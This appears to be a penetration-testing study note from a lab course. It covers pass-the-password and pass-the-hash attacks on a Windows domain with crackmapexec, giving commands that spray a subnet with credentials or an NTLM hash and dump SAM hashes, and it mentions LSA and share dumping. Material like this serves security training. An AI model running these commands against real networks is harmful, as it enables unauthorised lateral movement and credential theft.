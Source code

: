 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , Only use NTLMv1 hashes [refer to SMB relay attacks for this type of hashes]. Also make sure to run your `crackmapexec` twice with the same syntax as this may lead to different results.



## **Dumping Password Hashes**

```powershell
# dump SAM hashes of local admin and users

$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```



### **Example**


![](https://i.imgur.com/BPORRyU.png)

We can also dump `shares` and `lsa` (The LSA secrets are **a set of encrypted keys that are stored in the registry**, They could be used or cracked again) passwords of our targets


**_Dumping shares :_**


![](https://i.imgur.com/xPXK6Qs.png)



**_Dumping lsa :_**


![](https://i.imgur.com/FcNerVS.jpg)



## **Crackmapexec Modules**

Modules are set of objects within `crackmapexec` that makes it more efficient to use, In other to use a module we need to use the `-M` option followed by the module name.

![](https://i.imgur.com/aS8WTXb.jpg)


### **Usage**

```powershell

```